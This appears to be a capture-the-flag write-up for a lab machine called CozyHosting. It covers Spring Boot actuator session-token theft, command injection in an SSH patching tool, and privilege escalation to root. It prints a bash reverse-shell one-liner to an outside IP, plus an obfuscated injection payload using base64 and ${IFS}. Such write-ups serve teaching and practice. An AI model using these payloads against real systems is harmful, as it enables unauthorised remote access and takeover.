

# CozyHosting

### Reconnaissance

- port 22 SSH OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)
- port 80 HTTP ngionx v1.18 nginx 1.18.0 (Ubuntu)

bootstrap v 5.2.3

Directory scanning reveals the /login page, /error page, and /actuator endpoint (using SecLists 
quickhits.txt) and subdirectories ([scan](./cozyhosting.ffuf)):

- error
- actuator
- actuator/sessions
- actuator/health
- actuator/env
- actuator/beans
- actuator/mappings

The error page is a Whitelabel Error Page, a fallback for applications with no mapping for /error, and is used
by Spring Boot applications

Using Wappalyzer on the discovered pages shows the Web server software and version, the application language,
and the OS

Index  

/error  

/login  

The actuator endpoint is openly accessible and the /sessions page contains a JSESSIONID token for an 
authenticated user, using this session token and navigating to /login redirects us to the admin dashboard 
at /admin

On the dashboard there is a tool to include a host into automatic patching which sends a post request to 
/executessh using an IP and a username

The username parameter is vulnerable to code injection, we can test this with ping or wget, replacing any 
spaces with `${IFS}`  

  

  

### Exploitation

We can use the command injection to execute a bash one-liner that has been base64 encoded

Bash one-liner base64 encoded:

`echo "bash -i >& /dev/tcp/10.10.16.8/1337 0>&1" | base64 -w 0`

Command injection payload:

`;echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzEzMzcgMD4mMQo=" | base64 -d | bash;#`

Replace spaces:

`;echo${IFS}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNi44LzEzMzcgMD4mMQo="${IFS}|${IFS}base64${IFS}-d${IFS}|${IFS}bash;#`

### Privilege Escalation

linpeas.sh shows Postgres running on localhost

App .jar file contains clear text postgres credentials and DB name

Postgres DB contains usernames and hashes

Crack one of the hashes, valid user password allowing ssh access as local user

local user can run ssh as root giving us a root shell
